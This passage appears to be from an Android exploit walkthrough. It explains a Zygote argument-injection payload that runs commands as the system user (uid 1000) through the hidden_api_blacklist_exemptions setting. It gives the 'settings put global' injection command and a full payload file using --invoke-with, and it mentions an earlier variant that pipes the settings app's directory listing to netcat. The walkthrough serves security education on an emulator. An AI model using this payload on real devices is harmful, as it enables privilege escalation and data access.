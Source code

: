 1. We see that there are several empty lines at the beginning and some _commas_ with an "X" at the end. We will analyze this later because it is important for exploiting Android 12 and above.  
2. We can see that the user and group assigned to the command is `1000`. Normally on Android, user `1000` corresponds to _system_, which is a highly privileged user under which the _settings_ app runs.  
3. SELinux information is indicated with the `--seinfo` argument, and we can notice that the `"privapp"` context is used.  
4. We have `--runtime-flags=1`, which seems important for `--invoke-with` to work.  
5. The argument `--nice-name=zYg0te` may help us later to locate the output of the commands we invoke with the exploit in _logcat_.  
6. Finally, there is `--invoke-with` with a very interesting command, because it not only tries to list the directory of the _settings_ app but redirects the command output to `netcat (nc)` so that we can see that output from another terminal listening with `nc`.

To inject this type of _payload_, we just need to:

1. Save the _payload_ in a text file.  
2. Copy it to the `/data/local/tmp/` directory of the emulator.  
3. Update the variable with the following command:


```bash
settings put global hidden_api_blacklist_exemptions "$(cat /data/local/tmp/payload.txt)"
```
&nbsp;
> Change the filename if you used one different from `payload.txt`.

**Modification suggested by LLeavesg**

By suggestion of LLeavesg, we will replace the `--invoke-with` command with:

```bash
/system/bin/logwrapper echo zYg0te $(id);
```
&nbsp;
This command will allow us to filter `logcat` by `zYg0te` and verify if the `id` command executes correctly.

Our file with the payload (which we will call `payload_1.txt`) would look like this:

```bash





8
--setuid=1000
--setgid=1000
--runtime-args
--seinfo=platform:privapp:targetSdkVersion=30:complete
--runtime-flags=1
--nice-name=zYg0te
--invoke-with
/system/bin/logwrapper echo zYg0te $(id); #
,,,,X
```
&nbsp;
To upload it to the emulator, we use:
